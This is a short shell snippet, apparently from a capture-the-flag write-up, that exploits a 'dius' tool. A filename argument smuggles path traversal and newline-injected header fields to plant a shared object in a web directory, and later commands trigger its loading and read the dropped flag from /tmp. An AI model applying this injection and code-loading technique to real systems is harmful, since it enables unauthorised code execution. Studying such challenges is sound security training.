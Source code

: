```sh
# On remote, write our flag-reading shared object to the /challenge/www/c/
# directory.
bash -c "dius t $'../c/libb.so\nCREATE:1\nWEB:1\nFILENAME0:libb.so\nCOMPRESS0:n\nFILESIZE0:8112\n'"
ls -al /challenge/www/c

# On remote, trigger execution of our injected shared object.
echo AAAA > test.txt
dius cw libb.so b:test.txt

# Read the flag that our shared object dropped as world readable for us in /tmp.
cat /tmp/flag
```
